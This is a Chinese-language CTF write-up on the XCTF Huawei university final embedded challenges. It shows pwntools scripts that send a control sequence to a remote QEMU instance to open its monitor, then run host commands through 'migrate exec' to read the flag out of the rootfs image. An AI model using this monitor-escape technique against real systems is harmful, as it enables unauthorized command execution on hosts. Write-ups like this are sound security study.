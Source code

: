 ```yaml
---
title: XCTF 华为高校挑战赛决赛 嵌入式赛题 非预期解
categories:
- CTF/Pwn
tags: 
---
```


> 总共5道嵌入式赛题，全部非预期...

![image](https://xuanxuanblingbling.github.io/assets/pic/huawei/rank.png)

- 附件：[XCTF-HarmonyOS.zip](https://xuanxuanblingbling.github.io/assets/attachment/huawei/XCTF-harmonyOS.zip)

## 用户态赛题

所有的启动脚本中，qemu都没有关monitor（-monitor /dev/null）：

```c
./qemu-system-arm -M hi3518 -kernel liteos.bin -nographic
```

所以可以直接发送控制字符组合（`b"\x01c"`），使得远程的qemu进入monitor模式，然后即可执行qemu外的系统命令：

```python
from pwn import *
context(log_level='debug')

io =remote("172.35.7.36",9999)
io.send(b"\x01c")
io.interactive()
```

这种打法经常出现在qemu逃逸题目中非预期中，flag一般直接可以查看到，但本题的flag在harmonyOS的文件系统中，所以要重点关注rootfs.img

- 解包工具：[jefferson](https://github.com/sviehb/jefferson)
- 解包用法：`jefferson rootfs.img -d ./xxx`
- 固件打包： `mkfs.jffs2 -d ./xxx -o rootfs.img`

### unsql

可以执行本机命令后，尝试直接strings题目文件系统即可看到flag：

```python
from pwn import *
context(log_level='debug')

io =remote("172.35.7.36",9999)
io.send(b"\x01c")
sleep(1)
io.sendline(b"")
io.sendlineafter("(qemu) ",'migrate "exec: strings /rootfs.img | grep flag"')
io.interactive()
```
